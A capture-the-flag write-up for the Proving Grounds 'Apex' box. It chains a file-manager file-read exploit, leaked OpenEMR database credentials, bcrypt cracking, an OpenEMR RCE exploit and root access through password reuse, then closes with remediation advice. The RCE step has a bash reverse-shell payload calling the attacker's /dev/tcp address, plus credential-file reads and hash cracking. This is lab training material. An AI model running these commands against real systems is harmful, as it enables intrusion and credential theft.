








# Apex  - Proving Ground

| Info          | Details                                                                                              |
| ------------- | ---------------------------------------------------------------------------------------------------- |
| Platform      | Proving Grounds                                                                                      |
| Difficulty    | Intermediate                                                                                         |
| Target IP     | 192.168.155.145                                                                                      |
| OS            | Linux                                                                                                |
| Vulnerability | PHP File Vault 0.9 RFI, Credential Disclosure, Misconfigured Disk Group, SUID Privilege Escalation\| |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit, John the Ripper, LinPEAS                                    |

## Methodology

- Reconnaissance
- Enumeration
- Vulnerability Identification
- Exploitation
- Post-Exploitation
- Privilege Escalation

# Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

``` bash
mkdir apex
cd apex
mkdir nmap gobuster exploit
touch users.txt creds.txt
```

# Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='192.168.155.145'

## Regular Scan + Version
sudo nmap -sC -sV -oN nmap/nmap.log $ip 

## Scan All ports
sudo nmap -p- --min-rate 1000 -oN nmap/all_port $ip
```



**Results:**

| Port | Service | Version       | CheckList                                                                                                                      |
| ---- | ------- | ------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| 80   | http    | Apache 2.4.29 | -                                                                                                                              |
| 445  | smb     | MariaDB       | - Listed all shares<br>- Enumerate 'docs' found two files<br>   + "OpenEMR Success Stories.pdf"<br>   + "OpenEMR Features.pdf" |
| 3306 | mysql   |               |                                                                                                                                |

# SMB Enumeration

SMB shares were enumerated.

```bash
## Listed all shares
smbclient -L //$ip

## Connect to public shares - docs
smbclient \\\\$ip\\docs

## Enumerate "docs" shares
pwd
ls
get "OpenEMR Success Stories.pdf"
get "OpenEMR Features.pdf"
```



**Results:** Conduct share lists, and found a public share named `docs`. While enumerating `docs` share found two files, and download the files.

## HTTP - Port 80

Enumerating http service on Port 80

```bash
######
Browser
######
http://192.168.155.145/

######
Gobuster
######
gobuster dir -u $ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/go.log -t 42
```



**Results:** From gobuster found `/filemanager` directory. 

# Public Exploit - File Manager 9.13.4

Found a public exploit on website. 

```bash
https://github.com/dev-team-12x/responsive_filemanager

git clone https://github.com/dev-team-12x/responsive_filemanager.git

python3 responsive_filemanager_file_read.py http://192.168.238.145 PHPSESSID=kcuqsuvrstrhkeokcc63obf18v /etc/passwd
"4: shown file"
```



**Results:** Shown `/etc/passwd` file. Which indicated the exploit is working

Further exploitation:

```bash
## while checking the code saw, it downloads the reading file, so changed the path=/Documents
python3 responsive_filemanager_file_read.py http://192.168.238.145 PHPSESSID=kcuqsuvrstrhkeokcc63obf18v /var/www/openemr/sites/default/sqlconf.php
"It will downlaod the file, to /Documents"

## while reading sqlconf.php
cat sqlconf.php
```



**Results:** It shown database username and passwords `openemr::C78maEQUIEuQ`

## SQL Enumeration

Using discovered credentials:

```sql
mysql -u openemr -h $ip -p --skip-ssl
select version();
show databases;
use openemr
show tables;
SELECT username, password FROM users_secure;
"6: found the admin::passwords"
```



**Results:** From the database found user `admin` and hash passwords.

## Password Cracking

Hash cracked using John the Ripper:

```bash
## Added the hash to admin.hash
echo '$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC' >> admin.hash

# Using John tools to crack the passwords
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt admin.hash

# Displayed the password that cracked
john --show --format=bcrypt admin.hash
"7: thedoctor"
```

**Results:** Cracked passwords displayed  `thedoctor`
`admin::thedoctor`

# Public Exploit - RCE

Exploit identified via Searchsploit:

```bash
searchsploit openemr

# Download the exploit
searchsploit -m 45161

# Execute the rce payload 
python2 45161.py http://192.168.155.145/openemr -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.155/443 0>&1' 

## Attacker setup a listener
sudo nc -lnvp 443
```

**Results:** Local Shell obtained as `www-data`

## Local Shell Enumeration

```bash
whoami
id
ls /home
cat /home/white/local.txt
```



**Results:** Successful received a local shell with users `www-data`. Successfully retrieved local.txt.

# Privilege Escalation

While using `ls` command to list out `/home` found a user in the system, `white`. First trying weak passwords and try to reuse the passwords from what I have.

```bash
su white
su root
thedoctor
"Success logged in"

whoami
id
cat /root/proof.txt
```



**Results:** Succesfully login `root` with the password `thedoctor`. And retrieved the `proof.txt`

## **Remediation**

### **1. Web Application Security**

- Patch or remove vulnerable file manager
- Restrict file access to prevent arbitrary reads
- Keep OpenEMR and web components updated

---

### **2. Credential Management**

- Avoid storing plaintext credentials in configuration files
- Enforce strong password policies
- Implement password hashing with salting

---

### **3. Access Control**

- Restrict database access to localhost only
- Limit SMB share exposure

---

### **4. Privilege Hardening**

- Prevent password reuse across accounts
- Disable direct root login
- Enforce least privilege

---

### **5. System Hardening**

- Apply regular patching
- Enable logging and monitoring
- Conduct periodic security audits